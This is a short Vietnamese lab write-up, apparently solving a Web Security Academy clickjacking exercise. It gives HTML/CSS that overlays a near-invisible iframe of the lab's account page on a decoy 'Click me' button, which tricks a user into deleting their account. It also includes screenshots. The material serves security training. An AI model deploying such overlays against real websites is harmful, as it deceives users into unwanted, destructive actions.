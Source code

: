 ## Basic clickjacking with CSRF token protection



Mục tiêu là craft HTML để lừa người dùng bấm vào xóa tài khoản của họ.

```
<style>
    #vuln_site{
        position:relative;
        width:1000px;
        height:800px;
        opacity:0.1;
        z-index:2;
    }
    #evil_site{
        position:absolute;
        top:515px;
        left:50px;
        z-index:1;
    }
</style>
<div id="evil_site">Click me</div>
<iframe id="vuln_site" src="https://0aec00ad039842b7c05f33e000970086.web-security-academy.net/my-account">
</iframe>
```



![image](https://user-images.githubusercontent.com/68894302/175083090-2c363981-b451-4927-8a53-ea95b3d527c5.png)

Những gì còn lại bây giờ là thay đổi độ mờ (opacity) của trang web dễ bị tấn công thành 0,000001. Khi tải lại trang hoàn toàn mờ hẳn

![image](https://user-images.githubusercontent.com/68894302/175105409-96973396-1aba-44bd-8298-95cc6c8e184d.png)

![image](https://user-images.githubusercontent.com/68894302/175104173-67dff60f-0752-4806-b2d2-a762bd4c06e9.png)
